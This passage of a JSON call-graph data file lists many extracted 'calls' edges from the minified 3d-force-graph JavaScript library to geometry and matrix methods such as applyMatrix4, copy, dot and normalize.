"target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "containsPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMaxScaleOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "union"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "recast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "closestPointToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceSqToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceSqToSegment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceSqToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectTriangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "identity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copyPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "extractBasis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeBasis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "extractRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationFromEuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationFromQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "determinant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transpose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMaxScaleOnAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeTranslation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", 